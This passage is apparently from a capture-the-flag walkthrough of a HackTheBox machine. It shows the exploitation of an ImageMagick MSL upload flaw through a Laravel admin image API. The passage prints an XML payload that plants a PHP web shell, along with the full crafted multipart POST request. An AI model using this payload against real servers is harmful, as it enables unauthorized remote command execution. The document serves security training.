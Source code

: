 
I’ll first try to move the `path` and `effect` parameters from the POST body to the GET parameters. It’ll still be a POST request, but if this works, that makes it easier for me to isolate the file upload in the POST body:

![image-20230914211121039](/img/image-20230914211121039.png)

That does work. I’ll want to upload a file that will be temporarily written to `/tmp/php*` by PHP. To do that, I’ll use a multipart form data by setting the `Content-Type` header. By giving it `filename` and `Content-Type` attributes, PHP will handle it as a file.

The file will be a modified version of what’s in the blog post:

```

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/0xdf.php" />
</image>

```

Because the admin page gives both the path on the webserver and the path on disk:

![image-20230915101756217](/img/image-20230915101756217.png)

By writing to `/var/www/html/intentions/storage/app/public/`, I can expect to find the file in `/storage/`. I could also try the `animals` directory, but it doesn’t work (www-data doesn’t have write access).

Now I’ll edit the request headers to add form data for a file upload. My full payload looks like:

```

POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
X-XSRF-TOKEN: eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0=
Cookie: XSRF-TOKEN=eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6InR0TmJOa0crRGhzSjhEZFQ4bmErRVE9PSIsInZhbHVlIjoidElDYnFRSm1kVjVRSGNmR3FyNzJsdG0yakVsRXFKdVRYR1FMWnRrS1dRSUI1S1BHeENab3E4bGhyTmlTTmszY1llbFRLR1grQ09Lb09mcERjZ29qRGREUUI0cXJLQVUyRzFvUXJSNWNoQXhTVXA3K1pDSy93SVUzRTg5UW9lTEciLCJtYWMiOiJiNDFkOTc2MTJjMDgxZWZjMDU3NzFiZjQzNTEzNzM4YzA4MzU3YWY2ZDU4YWY2N2QwMmNjYWVjYjJiN2YwZjAzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk0Nzg0NjMyLCJleHAiOjE2OTQ4MDYyMzIsIm5iZiI6MTY5NDc4NDYzMiwianRpIjoiUm0yNTFTZkdQUzB5c2dEbyIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.WfIhNsk0pGCcD2BQm1LPmxFJpBAe5yR0ArgRErpFyCQ
Content-Length: 383
Connection: close
Content-Type: multipart/form-data; boundary=------------------------abcd
--------------------------abcd
Content-Disposition: form-data; name="file"; filename="test.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/0xdf.php" />
</image>
--------------------------abcd

```
